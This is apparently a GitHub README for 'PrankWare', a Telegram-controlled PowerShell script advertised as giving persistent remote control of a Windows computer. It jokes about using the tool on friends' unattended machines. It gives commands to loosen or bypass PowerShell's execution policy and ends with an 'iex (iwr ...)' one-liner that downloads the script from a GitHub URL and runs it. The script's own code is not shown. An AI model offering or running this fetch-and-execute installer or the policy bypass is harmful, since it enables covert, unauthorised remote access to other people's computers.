 # Telegram-Controlled PowerShell Script


Get a persistence remote control access through telegram commands. Don't use it when ur friends are away from their computer 🤫

## 🛠 Prerequisites

- Windows 10 or newer
- PowerShell 5 or later (built-in)
- Internet connection
- A Telegram bot token (from [@BotFather](https://t.me/BotFather))
- Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

## Powershell (Permanent fix)
```
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```
## Powershell (One-time fix for your session)
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```
## Powershell pipeline
```
iex (iwr "https://raw.githubusercontent.com/xtofuub/PrankWare/refs/heads/main/prankware.ps1")
